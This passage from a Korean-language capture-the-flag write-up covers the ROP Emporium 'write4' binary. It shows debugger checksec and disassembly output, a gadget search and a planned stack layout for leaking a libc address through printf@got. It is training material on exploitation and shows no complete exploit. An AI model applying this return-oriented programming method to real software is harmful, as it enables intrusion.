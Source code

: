 ## 3. write4
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
```nasm
gdb-peda$ disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004007b5 <+0>:     push   rbp
   0x00000000004007b6 <+1>:     mov    rbp,rsp
   ...
   0x00000000004007ec <+55>:    mov    rdx,QWORD PTR [rip+0x20087d]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004007f3 <+62>:    lea    rax,[rbp-0x20]
   0x00000000004007f7 <+66>:    mov    esi,0x200
   0x00000000004007fc <+71>:    mov    rdi,rax
   0x00000000004007ff <+74>:    call   0x400620 <fgets@plt>
   0x0000000000400804 <+79>:    nop
   0x0000000000400805 <+80>:    leave
   0x0000000000400806 <+81>:    ret
End of assembler dump.

```
split 문제와 매우 흡사하다. 하지만 이번에는 바이너리 자체에 '/bin/cat' 문자열이 없다.

```bash
gdb-peda$ elfsymbol
Found 7 symbols
puts@plt = 0x4005d0
system@plt = 0x4005e0
printf@plt = 0x4005f0
memset@plt = 0x400600
__libc_start_main@plt = 0x400610
fgets@plt = 0x400620
setvbuf@plt = 0x400630
```
```bash
junheah@ubuntu:~/ropemp/write4$ rp++ -f write4 -r 2 | grep 'pop rdi'
0x00400893: pop rdi ; ret  ;  (1 found)
```
puts/printf 가 있고, pop rdi 가젯이 있으므로 libc 주소를 leak 해주면 된다.

버퍼 구조는 다음과 같다:
<table>
    <tr><td>dummy data : (0x28 bytes)</td></tr>
    <tr><td>ret addr for pwnme : pop ret</td></tr>
    <tr><td>rdi : printf@got</td></tr>
    <tr><td>ret addr for pop ret : pwnme</td></tr>
</table>

